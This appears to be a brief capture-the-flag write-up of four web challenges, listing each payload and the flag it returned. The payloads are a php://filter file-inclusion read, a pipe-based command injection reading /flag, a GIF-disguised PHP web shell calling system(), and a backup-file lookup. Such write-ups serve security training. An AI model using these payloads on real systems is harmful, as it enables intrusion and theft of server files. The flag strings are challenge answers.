 # Web

## Include

> 题解

1. ?file=php://filter/convert.base64-encode/resource=flag.php

> flag{8555ce60-09a2-4e26-a64a-e9359932fab1}

## Exec

> 题解

1. 127.0.0.1 | cat /flag

> flag{8d255bd7-dedf-4a41-9df6-5c4c7c817495}

## Upload

> 题解

```php
// index.phtml
GIF89a
<script language='php'>system('cat /flag');</script>
```

> flag{80f14e81-9253-49ef-b539-e9b16a6c2ca6}

## BackupFile

> 题解

1. /index.php.bak
2. ?key=123

> flag{7e45d358-9d5c-4e91-ad13-57c502e6ed45}